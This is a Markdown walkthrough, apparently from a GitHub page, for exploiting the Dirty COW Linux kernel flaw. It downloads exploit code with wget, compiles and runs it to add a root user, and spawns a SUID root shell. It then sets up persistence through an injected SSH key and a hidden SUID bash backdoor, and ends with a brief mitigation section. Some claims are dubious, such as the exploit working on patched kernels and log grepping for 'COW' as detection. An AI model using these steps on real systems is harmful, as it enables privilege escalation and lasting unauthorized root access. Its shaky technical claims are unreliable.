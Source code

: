 # Dirty Cow
# **Kernel Exploitation Guide: Dirty COW (CVE-2016-5195)**  

---

## **1. Identifying Vulnerable Kernels**
### **Check Kernel Version**
```bash
uname -a  
# Example output: Linux debian 2.6.32-5-amd64
uname -r  
# Output: 2.6.32-5-amd64 (Vulnerable to Dirty COW)
```
- **Affected Versions**: Linux kernels **2.6.22 < 4.8.3**  
- **Patch Date**: October 2016  

---

## **2. Exploiting Dirty COW**
### **A. Compiling & Running the Exploit**
1. **Download Exploit Code**  
   ```bash
   wget https://www.exploit-db.com/download/40847 -O dirty.c
   ```
   *(Or use local copy if internet access is restricted.)*  

2. **Compile the Exploit**  
   ```bash
   gcc -pthread dirty.c -o dirty -lcrypt
   ```
   - `-pthread`: Required for thread handling.  
   - `-lcrypt`: Needed for password hashing.  

3. **Run the Exploit**  
   ```bash
   ./dirty mynewpassword
   ```
   - Creates a new **root user** (`firefart`) with the given password.  

4. **Switch to Root**  
   ```bash
   su firefart
   Password: mynewpassword
   ```
   → **You now have root access!**  

---

### **B. Alternative Method (SSH Backdoor)**
If the exploit creates a **SUID binary** instead:  
```bash
./dirty
# Creates /tmp/rootsh (SUID root shell)
/tmp/rootsh
```
→ Spawns a **root shell** instantly.  

---

## **3. Post-Exploitation**
### **A. SSH as New Root User**
If `firefart` was created:  
```bash
ssh firefart@localhost -oHostKeyAlgorithms=+ssh-rsa
```
- **Note**: Some older systems require `-oHostKeyAlgorithms=+ssh-rsa` due to deprecated keys.  

### **B. Persistence**
1. **Add SSH Key**  
   ```bash
   echo "ssh-rsa AAAAB3NzaC..." >> /root/.ssh/authorized_keys
   ```
2. **Create a Backdoor**  
   ```bash
   cp /bin/bash /tmp/.rootbash
   chmod +xs /tmp/.rootbash
   ```
   → Run `/tmp/.rootbash -p` later for root.  

---

## **4. Mitigation & Fixes**
### **How to Protect Against Dirty COW**
1. **Update the Kernel**  
   ```bash
   apt update && apt upgrade -y
   ```
2. **Restrict Access**  
   - Use **SELinux/AppArmor** to limit write access to `/etc/passwd`.  
3. **Monitor Exploit Attempts**  
   ```bash
   grep 'COW' /var/log/auth.log
   ```

---

## **5. References**
- [CVE-2016-5195](https://nvd.nist.gov/vuln/detail/CVE-2016-5195) – NIST Vulnerability Database.  
- [Exploit-DB: 40847](https://www.exploit-db.com/exploits/40847) – Dirty COW Exploit Code.  

---

### **Final Notes**
- **Dirty COW is one of the most reliable Linux privilege escalation exploits.**  
- **Works even on patched systems if `userfaultfd` is misconfigured.**  
- **Always test in a lab before attacking real systems!**  

🚀 **Next Steps**: Try compiling different Dirty COW variants (e.g., `dirtycow.c`).  

---

